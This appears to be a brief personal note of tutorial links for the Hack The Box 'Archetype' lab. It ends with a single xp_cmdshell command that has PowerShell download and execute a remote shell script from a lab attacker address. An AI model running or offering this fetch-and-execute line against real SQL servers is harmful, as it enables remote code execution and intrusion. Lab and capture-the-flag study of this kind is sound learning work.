 TUTORIALS

https://github.com/theeldruin/writeups/blob/main/hackthebox/archetype.md

https://www.reddit.com/r/hackthebox/comments/g978mu/welp_ive_hit_another_wall/?utm_source=amp&utm_medium=&utm_content=post_body

Must use this syntax...
	xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
